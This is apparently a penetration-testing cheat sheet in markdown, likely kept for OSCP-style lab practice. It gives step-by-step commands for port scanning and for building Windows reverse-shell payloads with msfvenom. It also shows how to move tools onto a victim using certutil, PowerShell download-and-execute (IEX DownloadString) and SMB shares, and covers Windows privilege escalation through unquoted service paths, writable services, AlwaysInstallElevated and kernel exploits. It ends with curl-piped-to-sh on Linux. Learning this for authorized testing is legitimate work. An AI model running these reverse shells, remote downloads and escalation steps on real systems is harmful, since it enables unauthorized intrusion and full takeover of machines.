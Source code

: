 ## Setting
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. `nmap -sC -sV -p- -Pn $ip --open -oN result`   AND  `rustscan -a $IP and rustscan -a $IP`. 
3. Check which ports are open. Take note of service running and versions(for searchsploit)\
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc\
5. Check for vulnerabiltieis on specific ports using nmap script `nmap -p 80,445,139 --script=*vuln* $IP`
## Check vulnerabilities and enumerate for each port
0. Go to the differnet MD files in the repo.

## Creating a reverseshell, uploading a revershell  / creating a stageless payload
0. `msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=1237 -f exe  -o reverse.exe` 
1. `msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=1234 -f asp -o reverse.asp` 

## File Transfer to Window 

### File transfer via own web server
0. `python3 -m http.server 8080` from linux
1. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://myIP:80/winpeas.exe', 'winpeas.exe') -exec bypass` from window
2. `certutil.exe -urlcache -f  http://myIp:80/winpeas.exe` from window
### File Transfer via SMB
0. `mkdir share` and move files to transfer
1. `impacket-smbserver smb share/ ` from linux
2. `net use \\myIP\smb` from window
3. `copy \\myIP\smb\winpeas.exe   \windows\temp\winpeas.exe` 

 ## Privilege Escalation for Window
 0. Use PowerUp
 1. `Import-Module .\PowerUp.ps1` or `. .\PowerUp.ps1`
 2. `Invoke-AllChecks`
 3. or `powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://myIP:80/PowerUp.ps1');Invoke-AllChecks"`
 4. Use WinPeas
 5. `winpeas.exe`
 6. Use SharUp if you cant run winpeas or powerup 
 7. `.\SharpUp.exe`
 ### Unquoted Service Path
 0. `Get-UnquotedService` or `wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`
 1. or `sc qc unquotedsvc`
 2.`msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=LISTENINGPORT -f exe  -o Program.exe` (create a payload)
 3.`sc start unquotedsvc` or restart box.
 

 ### Writable Service Executable
  0.`Invoke-AllChecks`
  1.`msfvenom -p window/shell_reverse_tcp LHOST=MyIP LPORT=LISTENINGPORT -f exe >service.exe`  (payload name has to be same as writable service) 

 ### AlwaysInstallElevate
 check if both values are 1.\
 0.`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`\
 1.`reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`\
 2. `msfvenom -p window/shell_reverse_tcp LHOST=MyIP LPORT=LISTENINGPORT -f msi >payload.msi`  (create a payload) 
 3. Transfer payload to Temp and execute
 4. `msiexec /i "C:\Windows\Temp\payload.msi"`


 ### SeImpersonatePrivilege 
 
 
 ### Kernal exploits (last resort)
 0. Extract `systeminfo` and save it to systeminfo.txt in kali (should be in same directory)
 1. `python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only | more`
 2. cross reference with the site https://github.com/SecWiki/windows-kernel-exploits to see if we have binaries
 3. Move the binary to window victim and run it with reverseshell to get root. 
 4. open netcat listener 
 5.  `.\x64.exe C:\PrivEsc\reverse.exe`
 
## File Transfer to Linux 
0.`python3 -c 'import pty; pty.spawn("/bin/bash")'` `export TERM=xterm-256color` Stabalize shell \
1.`python3 -m http.server 8080` `or( 80)`
2.`cd /tmp` move directory where we have write access.
4.`wget http://$myIP:8080/linEum.sh .` \
7.Or manually download the latest linpeas https://github.com/carlospolop/PEASS-ng/releases/tag/20221225

## Privilege Escalation for Linux
0. `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh` which would execute script (run from cd /tmp)
1. `chmod +x linpeas.sh` and `./linpeas.sh`


